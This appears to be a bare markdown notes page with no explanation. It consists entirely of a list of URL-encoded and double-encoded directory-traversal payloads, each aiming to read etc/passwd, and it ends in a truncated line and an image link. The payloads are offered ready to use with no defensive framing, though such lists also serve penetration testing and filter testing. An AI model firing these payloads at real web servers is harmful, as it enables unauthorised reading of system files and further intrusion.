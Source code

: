```txt
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f


```



![Pasted image 20250502231125.png](../../IMAGES/Pasted%20image%2020250502231125.png)
